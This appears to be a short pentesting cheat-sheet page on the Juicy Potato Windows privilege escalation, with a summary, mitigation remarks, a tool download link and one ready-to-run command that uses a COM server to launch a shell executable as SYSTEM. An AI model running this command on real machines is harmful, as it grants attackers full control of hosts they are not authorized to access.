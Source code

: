 `Juicy Potato <https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#juicyPotato>`_
**********************************************************************************************************

Summary
#########

If the user has 'SeImpersonate' or 'SeAssignPrimaryToken' privileges then you are *SYSTEM*.

It's nearly impossible to prevent the abuse of all these COM Servers. You could think to modify the permissions of these objects via DCOMCNFG but good luck, this is gonna be challenging.

The actual solution is to protect sensitive accounts and applications which run under the * SERVICE accounts. Stopping DCOM would certainly inhibit this exploit but could have a serious impact on the underlying OS.

Download
##########

https://github.com/ohpe/juicy-potato/releases  

Command
#########


.. code-block:: console

	.\JuicyPotato.exe -t * -p C:\Users\Public\shell-x64.exe -l 1337 -c {4991d34b-80a1-4291-83b6-3328366b9097} 
